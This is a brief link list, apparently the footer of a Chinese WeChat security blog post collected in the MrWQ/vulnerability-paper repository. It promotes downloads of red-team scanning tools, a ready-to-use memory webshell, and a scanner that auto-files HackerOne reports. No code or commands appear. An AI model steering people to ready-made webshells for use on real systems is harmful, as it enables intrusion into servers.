[神兵利器 | 附下载 · 红队信息搜集扫描打点利器](http://mp.weixin.qq.com/s?__biz=Mzk0NjE0NDc5OQ==&mid=2247508747&idx=1&sn=f131b1b522ee23c710a8d169c097ee4f&chksm=c308707bf47ff96dc28c760dcd62d03734ddabb684361bd96d2f258edb0d50e77cdb63a3600a&scene=21#wechat_redirect)

[神兵利器 | 分享 直接上手就用的内存马（附下载）](http://mp.weixin.qq.com/s?__biz=Mzk0NjE0NDc5OQ==&mid=2247506855&idx=1&sn=563506565571f1784ad1cb24008bcc06&chksm=c30808d7f47f81c11b8c5f13ce3a0cc14053a77333a251cd6b2d6ba40dc9296074ae3ffd055e&scene=21#wechat_redirect)

[推荐一款自动向 hackerone 发送漏洞报告的扫描器](http://mp.weixin.qq.com/s?__biz=Mzk0NjE0NDc5OQ==&mid=2247501261&idx=1&sn=0ac4d45935842842f32c7936f552ee21&chksm=c30816bdf47f9fab5900c9bfd6cea7b1d99cd32b65baec8006c244f9041b25d080b2f23fd2c1&scene=21#wechat_redirect)

**关注我，学习网络安全不迷路**

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
